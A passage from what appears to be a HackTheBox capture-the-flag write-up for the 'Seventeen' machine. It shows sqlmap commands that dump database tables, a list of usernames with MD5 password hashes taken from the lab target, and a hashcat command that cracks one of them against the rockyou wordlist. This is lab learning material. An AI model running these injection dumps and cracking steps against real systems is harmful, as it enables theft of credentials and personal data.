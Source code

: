 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/sqlmap%20database%20tables.png)

### sqlmap dump tables
````bash
sqlmap -r req.txt --dbs --batch --threads 10 -D db_sfms -T user,storage,student --dump


sqlmap -r req.txt --dbs --batch --threads 10 -D erms_db -T users --dump
`````


````
/home/xenotim/.local/share/sqlmap/output/exam.seventeen.htb/dump/db_sfms/user.csv


/home/xenotim/.local/share/sqlmap/output/exam.seventeen.htb/dump/db_sfms/storage.csv

/home/xenotim/.local/share/sqlmap/output/exam.seventeen.htb/dump/db_sfms/student.csv

/home/xenotim/.local/share/sqlmap/output/exam.seventeen.htb/dump/erms_db/users.csv
`````

### usernames and password hashes from sqlmap
````
admin:fc8ec7b43523e186a27f46957818391c
UndetectableMark:b35e311c80075c4916935cbbbd770cef
Stev1992:112dd9d08abf9dcceec8bc6d3e26b138
12345:1a40620f9a4ed6cb8d81a1d365559233
23347:abb635c915b0cc296e071e8d76e9060c
31234:a2afa567b1efdb42d8966353337d9024
43347:a1428092eb55781de5eb4fd5e2ceb835
Smith:1a40620f9a4ed6cb8d81a1d365559233
Mille:abb635c915b0cc296e071e8d76e9060c
Shane:a2afa567b1efdb42d8966353337d9024
Hales:a1428092eb55781de5eb4fd5e2ceb835

`````

### new possible domain: oldmangement.seventeen.htb
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/sqlmap%20new%20possible%20subdomain.png)

## hashcat
````bash
./hashcat.bin ~/Desktop/HackTheBox/Seventeen/userhashes.txt /opt/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 0


//result
31234:a2afa567b1efdb42d8966353337d9024:autodestruction

`````
